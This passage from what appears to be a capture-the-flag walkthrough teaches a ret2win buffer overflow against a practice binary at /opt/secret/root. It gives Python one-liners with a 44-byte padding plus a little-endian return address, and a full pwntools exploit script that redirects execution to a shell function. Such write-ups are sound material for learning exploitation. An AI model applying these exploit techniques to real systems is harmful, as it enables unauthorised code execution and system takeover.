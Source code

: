 **Method 2 - Struct:**

`python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'`

It requires importing a module but struct.pack allows us to automatically convert memory to little endian.

We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary

`python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root` should provide you with this output.

We did it!

## [Task 9] Binary Exploitation: The pwntools way

Pwntools is a python library dedicated to making everything we just did in the last task much simpler. However, since it is a library, it requires python knowledge to use to it's full potential, and as such everything in this task will be done using a python script.

We start off the script with:

``` python
from pwn import *
proc = process('/opt/secret/root')
```

This imports all the utilities from the pwntools library so we can use them in our script, and then creates a process that we can interact with using pwntools functions.

We know that we need the memory address of the shell function, and pwntools provides a way to obtain that with ELF().

ELF allows us to get various memory addresses of important points in our binary, including the memory address of the shell function.

With the ELF addition our script becomes

``` python
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
```

shell_func holds the memory address of our shell function. Now we need a way to form the payload, luckily pwntools has that to with fit().

fit allows us to form a payload by combining characters and our memory address. To send the payload we can use a method in our `proc` variable, `proc.sendline()`, which just sends whatever data we want to the binary. Finally we can use `proc.interactive()`, to view the full output of the process.

With all that our final exploit script becomes:

``` python
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```
